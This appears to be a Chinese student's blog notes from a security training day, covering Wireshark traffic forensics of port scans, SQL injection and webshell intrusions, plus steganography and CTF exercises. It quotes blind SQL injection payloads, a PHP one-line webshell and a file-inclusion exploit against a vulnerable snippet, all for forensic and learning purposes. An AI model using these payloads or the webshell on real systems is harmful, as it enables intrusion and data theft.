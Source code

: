 ```yaml
---
layout:     post
title:      "实训记录-周二"
subtitle:   "Day-2 流量分析实战+隐写"
date:       2025-04-22 12:00:00
author:     "hangyangjun"
header-img: "img/training.png"
tags:
    - 笔记
    - 记录
    - 学习
    - 实训
    - 安全
    - 渗透测试
    - 流量分析
    - 隐写
---
```

# 上午-流量分析实战
## 1 SYN半链接攻击流量分析
打开电线鲨鱼  
分析流量包

可见大量SYN半连接端口号都不一样  
所以攻击者在扫描网站开放端口  
过滤条件:
ip.src == 192.168.177.145 and tcp.flags.syn == 1 and tcp.flags.ack == 1

## 2 SQL注入攻击流量分析一
过滤条件:  
id=1'and if(length(database())=0,1,0)--+  
id=1'and if(ascii(substr(database(),7,1))>79,1,0) --+  
采用布尔盲注

you are in ...

## 3 SQL注入攻击流量分析二
http and (ip.src==192.168.177.1 or ip.dst== 192.168.177.145)   

id=1' and if(length(database())=1,sleep(5),0) --+   
id=1' and if((select%20substring(database(),1,1))="a",sleep(5),1) --+ 

更高级的时间盲注

## 4 Web入侵溯源一
发现一堆  
`http.response.code == 404`  
明显是扫后台呢  
是 `head` 请求，对网站进行目录爆破  

踪流->http 流,找到↓  
`admin_name=admin&admin_pwd=密码&submit=%B5%C7%C2%BC&act=do_login`  
中的`admin_pwd`字段  
攻击者对其进行了爆破  

然后发现代码
`@eval($_POST['x']);`

a	首先，黑客通过目录扫描，获取了后台管理地址。  
b	然后通过弱口令爆破，获取到了 admin 账户的密码，登录了后台。  
c	在对后台功能进行一番探索之后，找到了 admin/tpl_manage.php 文件可以通过目录遍历查看并修改任意文件的内容。由此通过修改 `index.php` 的内容，插入了 php 一句话木马。  
d	最后，黑客向 index 页面的**一句话木马**传递 `phpinfo()` 确认了一句话写入成功。  

## 5 Web入侵溯源二
1、使用 `Wireshark` 打开 webattack2.pcap 数据包。  
2、因为是对 web 攻击进行溯源分析 ，所以我们只需要关注 `http` 协议的数据包 。所以在显示过滤器中输入 http 过滤出 http 协议的数据包。  
搜索条件:  
`http and ((ip.src==192.168.177.1 and ip.dst==192.168.177.145) or (ip.src==192.168.177.145 and ip.dst==192.168.177.1))`  
3、通过对数据包的观察，前面部分的数据包为正常访问的数据包。  
4、从数据包编号为 1544 的包开始，开始出现 `head` 请求，以及大量的 404 响应，推测黑客正在对网站进行目录**爆破**。  
5、爆破完成后，流量中出现对 `/dede/login.php` 的访问记录。因为 dede 为 dedecms 的默认后台地址。此时黑客可能已经获取到了**后台**路径，且开始尝试登陆。  
6、查看 POST 数据包的内容，发现提交内容的用户名为 admin，密码为 123456 等弱口令，猜测黑客此时在进行弱口令测试。  
7、随后，出现了 `index.php` 的**访问记录**，观察前一个数据包的返回内容，其返回的内容为 JS 跳转，跳转到 index 页面，猜测此时黑客可能已经登录成功。  
8、之后黑客访问了 dede/ad_add.php 这个页面，`dedecms` 在 5.7 版本，这个页面存在 `getshell漏洞`，黑客应该是想利用此漏洞来进行 getshell。查看黑客此次 `POST` 提交的内容。发现了一句话木马。可以证实黑客是进行了 `getshell` 的操作。  
9、之后出现了大量的对 ad_js.php 页面的 POST 请求，查看请求的内容，为 php 代码。此时黑客可能已经成功 getshell，使用菜刀工具对 `webshell` 进行了连接。  

# 下午-流量分析与二进制ctf取证

## 密码追踪
Wireshark  
过滤`http`或`ftp`
使用数据流分析即可  
好像没啥好说的
## 数据包文件分析
流量分析找到密文
## 流量数据隐写分析
藏在图片里  
## 数据包中的线索
按长度排序  
找到上传的图片，里面藏了密码  
在流量文件里分离出zip加密文件，里面藏了flag

## 文件分析(隐写)
比较简单了  
主要就是flag藏在图片二进制文件里了  
然后就是png图片改大小以及base32编码  
最后就是爆破一个压缩包

# 晚上-写了一会buuctf的题

大部分都是简单题，基本上会基础操作都能想出来。  
### 难点
<br>

```php
highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```
- 有一道题是👆  
存在文件包含漏洞  
所以在网址后传参`%file=/flag`  
即可得到flag  

- 还有一个就是**zip伪加密**，遇到好几次了  
原理就是本身文件没有加密，但是二进制标志位被标记为有加密   
可以参考：  
[csdn_zip伪加密](https://blog.csdn.net/xiaozhaidada/article/details/124538768)(其实讲的有点不准确)  


